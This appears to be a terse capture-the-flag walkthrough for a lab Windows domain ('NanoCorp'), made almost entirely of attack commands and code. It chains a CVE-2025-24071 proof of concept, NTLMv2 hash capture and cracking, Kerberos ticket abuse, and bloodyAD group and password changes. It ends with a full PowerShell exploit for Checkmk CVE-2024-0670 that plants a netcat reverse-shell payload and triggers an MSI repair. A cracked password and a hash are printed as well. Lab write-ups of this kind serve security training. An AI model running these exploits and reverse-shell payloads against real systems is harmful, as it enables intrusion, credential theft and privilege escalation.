

```bash
git clone https://github.com/Marcejr117/CVE-2025-24071_PoC.git

python PoC.py test 10.10.14.107

sudo responder -I tun0


[SMB] NTLMv2-SSP Client   : 10.129.27.187
[SMB] NTLMv2-SSP Username : NANOCORP\web_svc
[SMB] NTLMv2-SSP Hash     : web_svc::NANOCORP:fbbf4af499fceee9:19EFFFE8A9231DCFCCF553AA4D096659:010100000000000000D942127E52DC016CEA8355AE973A520000000002000800440058003500570001001E00570049004E002D004E00550044004F0030004F00390036004B003500300004003400570049004E002D004E00550044004F0030004F00390036004B00350030002E0044005800350057002E004C004F00430041004C000300140044005800350057002E004C004F00430041004C000500140044005800350057002E004C004F00430041004C000700080000D942127E52DC0106000400020000000800300030000000000000000000000000200000C61EB5B3BAC1C973970298CA4F3137E7DA588278DF1383C62585BCFF6CCB928A0A001000000000000000000000000000000000000900220063006900660073002F00310030002E00310030002E00310034002E003100300037000000000000000000

john hash --wordlist=/usr/share/wordlists/rockyou.txt 
dksehdgh712!@#   (web_svc)

sudo apt install rdate

sudo rdate -n 10.129.27.187

impacket-getTGT 'nanocorp.htb'/'web_svc':'dksehdgh712!@#'

export KRB5CCNAME=web_svc.ccache

rusthound-ce

bloodyAD --host dc01.nanocorp.htb -d nanocorp.htb -u 'web_svc' -p 'dksehdgh712!@#' -k add groupMember it_support web_svc

bloodyAD --host dc01.nanocorp.htb -d nanocorp.htb -u 'web_svc' -p 'dksehdgh712!@#' -k set password monitoring_svc 'Password123!'

git clone https://github.com/ozelis/winrmexec.git

impacket-getTGT 'nanocorp.htb'/'monitoring_svc':'Password123!'

export KRB5CCNAME=monitoring.ccache

python3 winrmexec.py -ssl -port 5986 -k nanocorp.htb/monitoring_svc@dc01.nanocorp.htb -no-pass

Get-Process --> cmk CVE-2024-0670
```

exp.ps1

```powershell
param(
    [int]$MinPID = 1000,
    [int]$MaxPID = 15000,
    [string]$LHOST = "10.10.14.107",
    [string]$LPORT = "9001"
)

# 1. Define the malicious batch payload
$NcPath = "C:\Windows\Temp\nc.exe"
$BatchPayload = "@echo off`r`n$NcPath -e cmd.exe $LHOST $LPORT"

# 2. Find the MSI trigger
$msi = (Get-ItemProperty 'HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Installer\UserData\S-1-5-18\Products\*\InstallProperties' |
        Where-Object { $_.DisplayName -like '*mk*' } |
        Select-Object -First 1).LocalPackage

if (!$msi) {
    Write-Error "Could not find Checkmk MSI"
    return
}

Write-Host "[*] Found MSI at $msi"

# 3. Spray the Read-Only files
Write-Host "[*] Seeding $MinPID to $MaxPID..."
foreach ($ctr in 0..1) {
    for ($num = $MinPID; $num -le $MaxPID; $num++) {
        $filePath = "C:\Windows\Temp\cmk_all_$($num)_$($ctr).cmd"
        try {
            [System.IO.File]::WriteAllText($filePath, $BatchPayload, [System.Text.Encoding]::ASCII)
            Set-ItemProperty -Path $filePath -Name IsReadOnly -Value $true -ErrorAction SilentlyContinue
        } catch {
            # 123
        }
    }
}
Write-Host "[*] Seeding complete."

# 4. Launch the trigger
Write-Host "[*] Triggering MSI repair..."
Start-Process "msiexec.exe" -ArgumentList "/fa `"$msi`" /qn /l*vx C:\Windows\Temp\cmk_repair.log" -Wait
Write-Host "[*] Trigger sent. Check listener."
```

```powershell
.\RunasCs.exe web_svc "dksehdgh712!@#" "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -NoProfile -ExecutionPolicy Bypass -File C:\Windows\Temp\exp.ps1"
```